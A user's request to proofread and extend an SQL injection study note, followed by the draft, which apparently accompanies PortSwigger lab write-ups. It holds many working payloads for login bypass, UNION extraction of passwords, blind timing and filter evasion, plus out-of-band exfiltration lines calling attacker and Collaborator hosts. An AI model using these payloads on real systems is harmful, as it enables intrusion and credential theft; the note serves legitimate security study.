

okay, now the last proofread
but also please add more useful commands, cheat sheets, especially blind SQLi
such as from here
https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses
and other labs
could you please make sure the article sounds uniformly and grammatically correct? point to places where the style noticeably differs (point &like this&).

## Introduction: the concept of SQL injection

>**SQL injection (SQLi)** is a vulnerability that occurs when an application incorporates user-controlled input into a SQL query without proper validation or parameterization, which allows an attacker to alter the structure, logic, or execution of that query.

Most modern web applications rely on back-end databases to store and manage data — from user credentials and session information to application content.
- To generate dynamic responses, the backend constructs SQL queries at runtime and sends them to the database. The results are then returned to the user over HTTP(S).
- Problems arise when **user-controlled input** — such as URL parameters, form fields, cookies, or HTTP headers — is embedded directly into these queries without proper safeguards.

>[!tip]+ Experimenting with SQL locally
> - Often, you may find it useful to have access to a local installation of the same database as the one used by the application you target. You can experiment, inspect build-in tables, and learn database behavior. 
> - Other than installing a database locally, you can also use online resources, such as:
> 
> 	- [`SQLzoo.net`](https://sqlzoo.net/wiki/SQL_Tutorial)
> 	- [`SQl Fiddle`](https://sqlfiddle.com/)
> 	- [`DB-Fiddle`](https://dbfiddle.uk/)
> 	- [`DB<>Fiddle`](https://www.db-fiddle.com/)
> 	- [`SQLBolt`](https://sqlbolt.com/) 
> 	- [`SQL Test`](https://sqltest.net/)
> 	- [`Oracle Live SQL`](https://livesql.oracle.com/apex/f?p=590:1000)
> 	- [`W3chools`](https://www.w3schools.com/sql/sql_exercises.asp)

>[!bug]+ Labs
> See [[🛠️ SQL injection labs|🛠️ SQL injection labs]] for PortSwigger lab write-ups.

### Why SQL injection happens

> [!important] SQL does not inherently separate code (instructions) from data (user input).

- When an application builds a query by directly embedding user input into a SQL string — such as via concatenation or interpolation — the result is handed to the database as a **single monolithic instruction**.
- The database parser **has no way to know which parts were written by the developer and which came from the user** — it simply executes the entire string.

> [!bug] SQL injection occurs when user input is included in a query without safeguards such as parameterized queries or proper escaping.

#### Data context vs. code context

- **Data context**
	- Literal values the query operates on (e.g., search terms, usernames, object IDs, filter criteria, etc.).
	- These values are typically enclosed in quotes or bound as [parameters](https://www.w3schools.com/sql/sql_parameterized_queries.asp).
	- User input should *always remain* in the data context.

- **Code context**
	- The structure and logic of the SQL query: **keywords** (e.g., `SELECT`, `WHERE`, `INSERT`, `UPDATE`), **operators** (`=`, `>`, `<`, `AND`, `OR`, `NOT`), **delimiters** (`'`, `"`), and **statement terminators** (`;`). 
	- User input must *never influence* the code context.

If user input is directly inserted into a query, an attacker can often **break out of the data context** (e.g., using `'`), **inject SQL syntax**, and **modify query logic**.

>[!bug] SQL injection is, essentially, an escape from **data context** into **code context**.

> [!example]+ Example: Authentication bypass
> - When a user tries to log in, the application executes:
> ```SQL
> SELECT * FROM users WHERE username = 'john' AND password = 'passwd123'
> ```
> - `'john'`, `'passwd123'` -> data context.
> - `SELECT`, `WHERE`, `AND`, and the rest of the query → code context.
> 
> If an attacker submits `admin'--` as the username:
> 
> ```SQL
> SELECT * FROM users WHERE username = 'admin'--' AND password = 'anything'
> ```
> 
> - `'` → breaks out of data context (closes the string).
> - `--` → **comments out password check** (and the superfluous single quote that would otherwise cause syntax errors during execution).
> 
>As a result, the password check is never executed -> **authentication bypass**. 

> [!example]+ Example: Data exposure
> - Consider the following request:
> 
> ```powershell
> https://example.com/library?genre=detective
> ```
> 
> - The application executes: 
> 
> ```SQL
> SELECT name, author FROM books WHERE genre = 'mystery' AND hidden = 0
> ```
> 
> This returns all mystery books, excluding those marked as hidden.
> - Suppose a user modified the `genre` parameter:
> 
> ```powershell
> https://example.com/library?genre=detective'--
> ```
> 
> - Resulting query:
> 
> ```SQL 
> SELECT name, author FROM books WHERE genre = 'detective'--' AND hidden = 0
> ```
> 
> - The injected `'` closes the string, and `--` comments out the `hidden = 0` condition.
>
> The application now returns **all** detective books, including those meant to be hidden.

### Potential impact

The impact of a successful SQL injection depends on the database privileges, application design, and DBMS (Database Management System) feature, but often escalates into full application or system compromise. Potential consequences:

- **Sensitive data exfiltration**
	- Extracting **user credentials** (usernames, passwords /  password hashes), personal data (emails, addresses, PII), financial records, API keys, tokens, session data.  
- **Authentication bypass**
	- Bypassing login mechanisms without valid credentials (e.g., `' OR 1=1--`). 
- **Authorization bypass**
	- Accessing data or functionality beyond intended privileges (e.g., viewing or modifying other users' data).
- **Subverting application logic**
	- Manipulating how the application behaves without necessarily extracting data, such as bypassing business rules (e.g., purchasing items for free), ignoring filters, or forcing unintended query results.
- **Data manipulation** (integrity impact)
	- Changing users' passwords, account data, transaction data (`UPDATE ...`).
	- Adding malicious or unauthorized data (`INSERT INTO ...`).
- **Data destruction**
	- Deleting or corrupting data (e.g., `DELETE ...`, `DROP TABLE ... orders`).
- **RCE (Remote Code Execution)**
	- In some configurations, SQLi can lead to OS-level command execution (e.g., `EXEC xp_cmdshell` in MSSQL, `SELECT ... INTO OUTFILE` in MySQL, and `COPY ... TO PROGRAM` in PostgreSQL).
- **File system access** 
	- Reading files, writing files.
- **Lateral movement**
	- Using database access to reach internal systems (e.g., via MSSQL linked servers).
- **Out-of-band data exfiltration**
	- Extracting data via external channels, such as DNS or HTTP queries (e.g., `'; EXEC xp_dirtree '//<attacker_ip_address>/'+@@version--`). 
	- Useful when output can't be extracted directly and blind SQLi is too slow.
- **Denial of Service (DoS)**
	- Causing delays (e.g., `SELECT SLEEP(10`)), locking tables, or exhausting resources by executing heavy queries. 
## Detecting SQL injection
### Where to look

> [!tip] Test every point where user-controlled input reaches the backend.

**Input vectors to cover:**
- URL parameters (`GET`)
- Request body parameters (`POST`, JSON, XML)
- HTTP headers (often logged into databases for analytics)
	- `User-Agent`
	- `Referer`
	- `X-Forwarded-For`
	- `Authorization`
- Cookies
- Hidden form fields
- GraphQL and REST API parameters
- Stored data that gets retrieved and re-used later (-> [[#Second-order SQL injection]])

**High-value injection points:**
- Authentication & authorization logic
	- Login forms
	- API authentication endpoints
	- `Remember me` tokens
	- Password reset flows
	- Role / authorization checks
- Search, filter, and sort features (`LIKE`, `ORDER BY`, `LIMIT` are often used)
	- Search bars
	- Advanced filters (price, category, date range)
	- Sorting drop-downs
	- Pagination (`LIMIT <offset>`)
- File and resource access endpoints
	- Anything that resolves database-backed resources (e.g., `/download?id=`, `/file?id=`, `/report?type=`, etc.). These also also overlap with [[IDOR]] attack surface.
### Detection methodology

>[!tip]+ Minimal detection payload set:
> 
> ```SQL
> '
> '--
> ' AND 1=1--
> ' AND 1=2--
> ' UNION SELECT NULL--
> ' UNION SELECT NULL,NULL--
> ' AND SLEEP(5)--
> ' OR 1=1--
> ```

>[!tip]+ Quick test cheat sheet
> 
> - Quote tests:
> 
> ```SQL
> username' # single quote — Most common SQL injection test
> username" # double quote — Used in some database types  
> username` # backtick     — Mainly for MySQL identifier injection
> ```
> 
> - Logic tests:
> 
> ```SQL
> username' OR '1'='1   # always true condition
> username' AND '1'='2  # always false condition
> username' WAITFOR DELAY '0:0:5'--  # time-based test, checks for blind injection
> ```
> 
> - Error tests:
> 
> ```SQL
> username' AND 1=convert(int,@@version)--           # forces type conversion error, reveals MSSQL version
> username' AND 1=cast((SELECT @@version) as int)--  # alternative version check for MSSQL
> ```


1. **Establish a baseline**
	- Send the original request multiple times and record the **response content**, **response length**, **status code**, and **response time**.

2. **Confirm input is actually used**
	- Modify parameters slightly: change values (`1` -> `2`, `abc` -> `xyz`) and observe if the response changes. 
	- If you see no changes, input may either nor reach backend or be stored for later use (-> [[#Second-order SQL injection]]).

---

3. **Break SQL syntax**
	- Attempt to **escape the data context** by injecting quote characters and parentheses (e.g., `'`, `"` , `` ` ``, etc).

	```
	'
	"
	`
	')
	")
	`)
	```
	
	- Look for:
		- SQL error messages
		- HTTP `500 Server Error` responses
		- Broken page structure 
		- Missing content
	- Any of the above strongly suggest unsanitized SQL execution.

4. **Identify the injection context**
	- Determine whether you input is treated as a string or number, and whether it sits inside parentheses.

		```SQL
		-- string context
		' AND '1'='1
		
		-- numeric context
		' AND 1=1
		
		-- string context in parentheses
		') AND ('1'='1)
		```
		- Also consider:
			- Inside quotes?
			- Inside parentheses?
			- Used in `ORDER BY` / `LIMIT`?

5. **Test boolean logic (primary detection signal)**
	- Inject conditions that evaluate to `true` and `false`, and compare the responses.

		```SQL
		' AND 1=1-- -    -- true: normal response
		' AND 1=2-- -    -- false: different response
		
		' OR 1=1-- -     -- always true
		' OR 1=2-- -     -- depends on underlying data
		```
	- If the responses differ consistently, SQL injection is confirmed.

6. **Append comments**
	- Attempt to cut off the remainder of the query.

		```SQL
		'-- -
		'#
		'/*
		```

	- Look for:
		- Missing conditions (e.g., filters disappear)
		- Increased results
		- Changed behavior
	- This confirms you can **control query structure**, not just values.

7. **Probe for `UNION`-based SQLi**
	- Test whether you can append additional `SELECT` statements:

		```SQL
		' UNION SELECT NULL--
		' UNION SELECT NULL,NULL--
		' UNION SELECT NULL,NULL,NULL--
		```
	- Look for:
		- Reflected values
		- Page rendering differences
		- Additional content
	- If successful -> you have **in-band SQLi**.
	- See [[#Union-based SQLi]].

8. **Force errors**
	- Induce the database to throw errors:
		```SQL
		' AND 1/0--
		' AND CAST((SELECT 1) AS int)--
		```
	- Look for:
		- Detailed database errors
		- Stack traces
		- Type conversion errors
	- Errors can reveal:
		- DBMS type
		- Query structure
		- Table/column names
	- See [[#Error-based SQLi]].

9. **Test time-based techniques**
	- If no visible difference exists, attempt to induce a delay:
		```SQL
		' AND SLEEP(5)-- -            -- MySQL
		' AND pg_sleep(5)-- -         -- PostgreSQL (via subquery)
		'; WAITFOR DELAY '0:0:5'-- -  -- MSSQL
		```
	- Observe response delay (~5 seconds)
	- Then confirm with a condition:
		```SQL
		' AND IF(1=1, SLEEP(5), 0)-- - -- delay: true
		' AND IF(1=2, SLEEP(5), 0)-- - -- no delay: false
		```
	- A delay on the true condition and no delay on the false condition confirms blind time-based injection.
	- See [[#Time-based blind SQLi]].

10. **Test out-of-band (OOB) interactions**
	- If none of the above produce a detectable signal, test for out-of-band DNS interaction (e.g., using Burp Collaborator or [`interactsh`](https://github.com/projectdiscovery/interactsh)).
	- If you see no errors (in-band error-based), content differences (blind boolean-based), or timing differences (blind time-based), test for out-of-band (OOB) techniques:
		```SQL
		-- MSSQL
		'; EXEC master..xp_dirtree '//your-collaborator-id.burpcollaborator.net/x'-- -
		
		-- MySQL (Windows, requires FILE privilege)
		' UNION SELECT LOAD_FILE('\\\\your-collaborator-id.burpcollaborator.net\\x')-- -
		
		-- Oracle
		' AND UTL_HTTP.REQUEST('http://your-collaborator-id.burpcollaborator.net') IS NOT NULL-- -	
		```
	- See [[#Out-of-band SQLi]].

10. **Attempt filter bypasses**
	- If payloads fail or behave inconsistently, try evasion techniques:
		```SQL
		-- encoding
		%27 OR 1=1-- -
		
		-- case variation
		' UnIoN SeLeCt NULL-- -
		
		-- comment substitution for spaces
		'/**/OR/**/1=1-- -
		
		-- alternative operators
		' OR 1 LIKE 1-- -
		' OR 1 BETWEEN 1 AND 1-- -
		```

>[!note] One of the most reliable ways to detect SQL injection is **fuzzing parameter values** (if permitted in-scope), see [`SecLists/Fuzzing/Databases/SQLi`](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/Databases/SQLi).

>[!note] The type of SQL injection (see [[#Types of SQL injections]]) only determines the *signal* you're trying to trigger; the detection methodology remains the same. 

> [!note] The type of SQL injection only determines the _signal_ you observe; the detection methodology is the same regardless of type (see [[#Types of SQL injection]]).

>[!bug]+ Labs
>- [[🛠️ SQL injection labs#1. Lab SQL injection vulnerability in WHERE clause allowing retrieval of hidden data|1. Lab SQL injection vulnerability in WHERE clause allowing retrieval of hidden data]]
>- [[🛠️ SQL injection labs#2. Lab SQL injection vulnerability allowing login bypass|2. Lab SQL injection vulnerability allowing login bypass]]
>- [[🛠️ SQL injection labs#3. Lab SQL injection attack, querying the database type and version on Oracle|3. Lab SQL injection attack, querying the database type and version on Oracle]]
>- [[🛠️ SQL injection labs#4. Lab SQL injection attack, querying the database type and version on MySQL and Microsoft|4. Lab SQL injection attack, querying the database type and version on MySQL and Microsoft]]
>- [[🛠️ SQL injection labs#5. Lab SQL injection attack, listing the database contents on non-Oracle databases|5. Lab SQL injection attack, listing the database contents on non-Oracle databases]]
>- [[🛠️ SQL injection labs#6. Lab SQL injection attack, listing the database contents on Oracle|6. Lab SQL injection attack, listing the database contents on Oracle]]
### Injection in different parts of the query

SQL injection can occur in **any part of a SQL query** that incorporates user input. The objective is always the same: **break out of the data context into the code context** and manipulate the query's structure.

Although most SQL injection vulnerabilities occur in the `WHERE` clause of a `SELECT` statement, vulnerable sinks exist throughout the query:
- `WHERE` clause -> filtering conditions (most common)
- `ORDER BY` clause -> sorting logic
- `LIMIT` / `OFFSET` -> pagination
- `INSERT` statements -> inserted values
- `UPDATE` statements -> in `SET` values or `WHERE` clause
- `SELECT` statements -> in column or table names
- `GROUP BY`, `HAVING` -> aggregation logic
- External inputs -> JSON, cookies, headers

#### `WHERE`

- The classic injection point, where the user input is embedded into filtering logic.

- Original query:

```SQL
SELECT title, author FROM books WHERE genre = 'mystery';
```

- Boolean-based injection:
	
	```SQL
	' AND (SELECT SUBSTR(password,1,1)='a' 
	FROM users WHERE username='administrator')--
	```
	- `true` → normal results
	- `false` → empty or altered results

- Error-based:

#### `ORDER BY`


>[!note]+ `ORDER` syntax
> ```SQL
> SELECT column1, column2, ...  
> FROM table_name  
> ORDER BY column1, column2, ... ASC|DESC;
> ```

If the sort column is taken from user input without proper validation, an attacker can inject SQL into the `ORDER BY` clause. 

- SQLi in `ORDER BY` is a bit different from the usual `WHERE`-based injections because you’re not injecting a condition directly — you’re influencing **how results are sorted**. 
- So the trick is to turn sorting into a side channel (different order, errors, or delays).
---
- **Boolean-based** — you conditionally choose **which column to sort by** depending on a boolean:

	```SQL
	ORDER BY
	  CASE
	    WHEN (SUBSTR(password,1,1)='a') THEN username
	    ELSE id
	  END
	```

	- Injection:

	```SQL
	1, (SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN username ELSE id END FROM users LIMIT 1)
	```

	- If condition is `true` -> sorted by `username`.
	- If false -> sorted by `id`.
	- Different results -> different row order -> different first item.

- **Error-based** — trigger an error **only when the condition is true**, using the `ORDER BY` expression:
	
	```SQL
	ORDER BY
	  CASE
	    WHEN (SUBSTR(password,1,1)='a') THEN 1/0
	    ELSE 1
	  END
	```
	
	- Injection:
	
	```SQL
	1, (SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN 1/0 ELSE 1 END)
	```

	- `true` -> error (`500`).
	- `false` -> normal response.


- **Time-based** — introduce a delay inside the `ORDER BY` expression:

	```SQL
	ORDER BY
	  CASE
	    WHEN (SUBSTR(password,1,1)='a') THEN pg_sleep(5)
	    ELSE 1
	  END
	```
	
	- Injection:
	
	```SQL
	1, (SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN pg_sleep(5) ELSE 1 END)
	```
	
	- `true` → delayed response (~5 seconds).
	- `false` → normal response.


>[!warning]+ You usually can't use plain boolean logic
> 
> This usually **fails**:
> 
> ```SQL
> ORDER BY (SELECT SUBSTR(password,1,1)='a')
> ```
> 
> Because `ORDER BY` expects a column or a sortable expression.

>[!warning] `CASE` branches must be compatible: numbers with numbers, strings with strings.
>This will fail:
>```SQL
>THEN username ELSE 1   -- type mismatch
>```

>[!warning] **You can not place a `UNION` operation after an `ORDER BY` clause within a single `SELECT` statement.**

>[!note] You can specify multiple columns to sort by. 

```SQL
SELECT name, author FROM books WHERE genre = 'detective' ORDER BY (SELECT 1 FROM (SELECT(SLEEP(5)) FROM information_schema.tables WHERE table_schema = 'webapp_db') WHERE 1=1--
```

#### `LIMIT`
## Types of SQL injection

SQL injections can be divided into three main types based on how and where you retrieve or infer the results of the queries:

- **In-band SQLi**
	- The results of SQL queries are retrieved via **the same communication channel as the one used for the injection** (HTTP responses).
	- The most common type of SQLi; typically easy to detect and exploit.

- **Blind SQLi**
	- The results of SQL queries are **not directly displayed in the application**, and therefore has to be inferred from the application behavior.
	- More challenging to exploit.

- **Out-of-band (OOB) SQLi**
	- The results of SQL queries are retrieved via **a different communication channel than the one used for the injection**, i.e., out-of-band (e.g., DNS queries).
	- Less common; relies on the database's ability to establish out-of-band connections.



## In-band SQLi

>**In-Band SQL Injection** (also known as *classic* or *first-order SQLi*), occurs when the attacker can retrieve SQL query results trough the **same communication channel used for the injection** (typically the HTTP response).

- This is the **most common** and usually the **easiest to exploit** type of SQL injection.
- Both **data** and **error messages** are returned directly in application responses.
- Two primary exploitation techniques:
	- **Error-based SQL injection**
	- **Union-based SQL injection**

>[!bug]+ Labs
>- [[🛠️ SQL injection labs#7. Lab SQL injection UNION attack, determining the number of columns returned by the query|7. Lab: SQL injection UNION attack, determining the number of columns returned by the query]]
>- [[🛠️ SQL injection labs#8. Lab SQL injection UNION attack, finding a column containing text|8. Lab SQL injection UNION attack, finding a column containing text]]
>- [[🛠️ SQL injection labs#9. Lab SQL injection UNION attack, retrieving data from other tables|9. Lab SQL injection UNION attack, retrieving data from other tables]]
>- [[🛠️ SQL injection labs#10. Lab SQL injection UNION attack, retrieving multiple values in a single column|10. Lab SQL injection UNION attack, retrieving multiple values in a single column]]
### Error-based SQLi

>**Error-based SQL injection** relies on triggering database errors and using the returned error messages to extract information about the query structure or underlying data.

- The goal is to deliberately break query syntax or force invalid operations. 
- Error messages the database returns may reveal:
	- DBMS type and version
	- Query structure
	- Table and column names
	- Even actual data (in some cases)
- These errors are then used to **refine payloads** and **extract data** or perform other actions.

>[!tip]+ The structure and content of database error messages often reveals the DBMS in use
> 
> | Error pattern                                        | DBMS       |
> | ---------------------------------------------------- | ---------- |
> | `You have an error in your SQL syntax... near '...'` | MySQL      |
> | `Unclosed quotation mark after the character string` | MSSQL      |
> | `ERROR: unterminated quoted string at or near`       | PostgreSQL |
> | `ORA-00933: SQL command not properly ended`          | Oracle     |
> Even partial error messages are often enough to identify the backend. You can submit the message to an AI or use a search engine to determine the database engine.

#### Triggering errors

The goal is to **break the query** or force the database into an invalid operation.

- **Breaking syntax** — inject **single/double quotes**:

```SQL
id=1'
id=1"
```

- **Type casting** — force the database to cast incompatible types (e.g., string to integer):

```SQL
-- - MySQL/Postgres
id=' AND 1=CAST((SELECT database()) AS int)-- -
```

```SQL
-- MSSQL
id=1' AND 1=CONVERT(int, (SELECT @@version))--
```

>[!tip]+ These errors often include the **actual query result** inside the error message.

- **Arithmetic errors (e.g., division by zero)**:

```SQL
' AND 1/0-- -
' AND 1=1/0-- -
```

- **Invalid objects** — refer to non-existent tables or columns:

```SQL
id=1' AND (SELECT FROM nonexistent_table)-- -
```

- **Errors in database-specific functions**:

```SQL
-- MySQL
AND UPDATEXML(1, CONCAT(0x7e, (SELECT user())),1)-- -
```

```SQL
--PostgresSQL / Oracle-style CASE
AND (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END)-- -
```
### Union-based SQLi

>**Union-based SQL injection** exploits the SQL `UNION` operator to append an attacker-controlled `SELECT` statement to the original query, causing both result sets to be returned in the application's response.

- `UNION`-based attacks are one of the most efficient ways to extract large amounts of data, as they provide **direct access to database query results**.

>[!tip]+ `UNION` syntax
>
> ```SQL
> SELECT column1, column2, ... FROM table1 
> UNION 
> SELECT column1, column2, ... FROM table2
> ```

> [!note] The `UNION` operator can combine multiple `SELECT` statements, not just two.

>[!note] See [[🛠️ SQL injection cheat sheet#UNION SELECT]].

- For a `UNION` query to work, two conditions must be met:
	- Each `SELECT` statement within `UNION` must return the **same number of columns**.
	- Corresponding columns must have **compatible data types**.
#### 1. Determine the number of columns

There are two common techniques you can use to determine the number of columns returned by the original `SELECT` statement:
- `ORDER BY` method
- `NULL` method
##### The `ORDER BY` method

- Append an `ORDER BY` clause and increment the column index until an error occurs:

```SQL
' ORDER BY 1 -- -
```

- Start from `1`, increase the index step-by-step:

```SQL
' ORDER BY 1-- -   -- valid
' ORDER BY 2-- -   -- valid
' ORDER BY 3-- -   -- valid
' ORDER BY 4-- -   -- error
```

- The **highest valid index** is the number of columns the original `SELECT` statement returns (→ `3` in this example).

>[!tip]+ 
> - [`ORDER BY`](https://www.w3schools.com/sql/sql_orderby.asp) sorts the results by a specified column or expression (ascending or descending order). An invalid index triggers a database error.
> 
> ```SQL
> SELECT column1, column2, ... FROM table_name ORDER BY sort_expression [ASC | DESC];
> ```

>[!note] See [[🛠️ SQL injection cheat sheet#ORDER BY]].

> [!example]+
> ```SQL
> SELECT column1, column2, column3 FROM table_name WHERE genre='mystery 
> 	                                                                ' ORDER BY 3 -- -
> ```
##### The `NULL` method

> [!note] `NULL` is compatible with most data types.

- Union-select increasing numbers of `NULL` columns until the query succeeds:

```SQL
' UNION SELECT NULL-- -            -- error
' UNION SELECT NULL,NULL-- -       -- valid
' UNION SELECT NULL,NULL,NULL-- -  -- error
```

- The number of `NULL`s in the valid query is the number of columns returned by the original `SELECT` statement (→ `2` here).

>[!info] Since the `NULL` matches any data type, the application won't throw type errors.

> [!tip]+
> You can also use numbers instead of `NULL`:
> 
> ```SQL
> ' UNION SELECT 1,2,3-- -
> ```

>[!important]+ Oracle-specific note 
>On Oracle, every `SELECT` query must use the `FROM` keyword and specify a valid table. Use the build-in `dual` table:
> ```SQL
>' UNION SELECT NULL FROM DUAL-- -
> ```
####  2. Find string-compatible columns

To extract meaningful data, you need at least one column that accepts **string data**.
- Start with the correct number of columns (using `NULL`).
- Replace each `NULL` with a test string (`'a'`) one at a time. 

```SQL
' UNION SELECT 'a',NULL,NULL,NULL-- -   -- error
' UNION SELECT NULL,'a',NULL,NULL-- -   -- valid
' UNION SELECT NULL,'a','a',NULL-- -    -- error
' UNION SELECT NULL,'a',NULL,'a'-- -    -- valid
-- columns 2 and 4 accept strings
```

- Valid queries indicate columns that accept string data (-> `2` and `4` in this case).
- These columns can then be used to display extracted data. 

#### Extracting data

Once you have the column count and at least one string-compatible column, you can start extracting data directly from the database. 

- Use known database functions to confirm you can extract data:

```SQL
' UNION SELECT NULL,@@version,NULL,database(),NULL-- -
```

- Identify the database type to use correct syntax:

```SQL
-- MySQL 
' UNION SELECT NULL,@@version,NULL-- -  
' UNION SELECT NULL,database(),NULL-- -  
' UNION SELECT NULL,user(),NULL-- -
```

```SQL
-- PostgreSQL  
' UNION SELECT NULL,version(),NULL-- -  
' UNION SELECT NULL,current_database(),NULL-- -
```

```SQL
-- MSSQL  
' UNION SELECT NULL,@@version,NULL-- -  
' UNION SELECT NULL,db_name(),NULL-- -
```

```SQL
-- Oracle  
' UNION SELECT NULL,banner,NULL FROM v$version-- -
```

- Enumerate schema:

```SQL
-- MySQL / PostgreSQL (information_schema)

-- list databases
' UNION SELECT NULL,schema_name,NULL FROM information_schema.schemata-- -

-- list tables
' UNION SELECT NULL,table_name,NULL FROM information_schema.tables WHERE table_schema='webapp_db'-- -

-- list columns
' UNION SELECT NULL,column_name,NULL FROM information_schema.columns WHERE table_name='users'-- -
```

```MySQL
-- Oracle

' UNION SELECT NULL,table_name,NULL FROM all_tables-- -
' UNION SELECT NULL,column_name,NULL FROM all_tab_columns WHERE table_name='USERS'-- -
```

- Once you know table and column names: 

```SQL
' UNION SELECT NULL,username,NULL FROM users-- -
' UNION SELECT NULL,password,NULL FROM users-- -
```

```SQL
-- use string concatenation
' UNION SELECT NULL,CONCAT(username, '~', password),NULL FROM users-- -
```

>[!note] See [[🛠️ SQL injection cheat sheet#String concatenation]].

>[!tip]+
> If only **one column is visible**, concatenate multiple values:
> 
> ```SQL
> ' UNION SELECT username || '~' || password FROM users-- -
> ```

>[!important]+ Different DBMSs use different concatenation syntax
> 
> - MySQL
> 	- `SELECT CONCAT('str', 'ing');`
> 	- `SELECT CONCAT_WS('str', 'ing');`
> - MSSQL
> 	- `SELECT 'str' + 'ing';`
> 	- `SELECT CONCAT('str', 'ing');`
> 	- `SELECT CONCAT_WS('str', 'ing');`
> - PostgreSQL
> 	- `SELECT 'str' || 'ing';`
> 	- `SELECT CONCAT('str', 'ing');`
> 	- `SELECT CONCAT_WS('str', 'ing');`
> - Oracle
> 	- `SELECT 'str' || 'ing';`
> 	- `SELECT CONCAT('str', 'ing');`
> - SQLite
> 	- `SELECT 'str' || 'ing';`
> 	- `SELECT CONCAT('str', 'ing');`
> 	- `SELECT CONCAT_WS('str', 'ing');`

>[!note] See [[🛠️ SQL injection cheat sheet#String concatenation]].


### A note on stacked queries 

>**Stacked queries** is a technique that allows an attacker to terminate the original SQL statement with a semicolon (`;`) and append one or more additional statements to be executed in sequence.

```SQL
statement_1 ; statement_2
```

- Unlike `UNION`-based SQLi (which is limited to `SELECT`), stacked queries allow you to execute **arbitrary SQL statements**, such as `INSERT`, `UPDATE`, `DELETE`, `CREATE`, `DROP`, or even stored procedures (-> potential RCE).

>[!example]+
> - Injected input:
> 
> ```SQL
> detective'; INSERT INTO users (username, password, isadmin) VALUES ('attacker','pass',true)-- -
> ```
> 
> - Resulting query:
> 
> ```SQL
> SELECT name, author FROM books WHERE genre='detective';
> INSERT INTO users (username, password, isadmin) VALUES ('attacker','pass',true)-- -
> ```

>[!warning] Stacked queries are **rare in practice**; they are often blocked by database drivers or frameworks, and highly depend on the DBMS + API combination. 

> [!note]+ Support depends on implementation
> 
> - Commonly works:
>     - MSSQL (especially with older ASP/ADO setups)
>     - PostgreSQL (in some configurations)
> - Commonly blocked:
>     - MySQL with PHP (`mysqli`, PDO) → no multi-statements by default

- Test for stacked queries:

```SQL
'; SELECT 1-- -
```

## Blind SQLi

>**Blind SQL injection** (also called *inferential SQLi*) occurs when an application **does not return query results or database errors directly**, but these results can be **inferred** indirectly based on application behavior. 

> **Blind SQL injection** (also called **inferential SQLi**) occurs when an application does **not return query results or database errors directly**, but the behavior of the application still depends on the outcome of injected SQL queries.

- No data is displayed in responses.
- The database **still executes your payloads**.
- You must **infer results indirectly** from observable side effects. 

These side-effects typically include:
- Changes in response content (boolean-based)
- Differences in response time (time-based)
- Presence or absence of errors (error-based blind)

>[!warning] Blind SQLi is slower and more complex than in-band SQLi because you extract data **character-by-character**.

Blind SQLi is commonly divided into:
- **Boolean-based blind SQLi** -> infer results from **response differences**.
- **Time-based blind SQLi** -> infer results from **response delays**.

>[!bug]+ Labs
>- [[🛠️ SQL injection labs#11. Lab Blind SQL injection with conditional responses|11. Lab Blind SQL injection with conditional responses]]
>- [[🛠️ SQL injection labs#12. Lab Blind SQL injection with conditional errors|12. Lab Blind SQL injection with conditional errors]]
>- [[🛠️ SQL injection labs#13. Lab Visible error-based SQL injection|13. Lab Visible error-based SQL injection]]
>- [[🛠️ SQL injection labs#14. Lab Blind SQL injection with time delays|14. Lab Blind SQL injection with time delays]]
>- [[🛠️ SQL injection labs#15. Lab Blind SQL injection with time delays and information retrieval|15. Lab Blind SQL injection with time delays and information retrieval]]

### Boolean-based blind SQLi

>**Boolean-based SQLi** relies on **detectable differences in application responses** when a condition evaluates to `true` vs. `false` to infer database content. 

- You inject **conditional expressions**.
- The application behaves differently depending on the result. 
- You map `true` to one response, and `false` to another, and then use this information to infer the actual data using conditional queries. 
#### 2. Establish a baseline

Before extracting data, confirm you can reliably distinguish `true` and `false`.

- Always-`true` payloads:

```SQL
' OR 1=1-- -
' OR 'a'='a'-- -
' AND '1'='1
```

- Expressions that always return `false`:

```SQL
' AND 1=2-- -
' AND 'a'='b'-- -
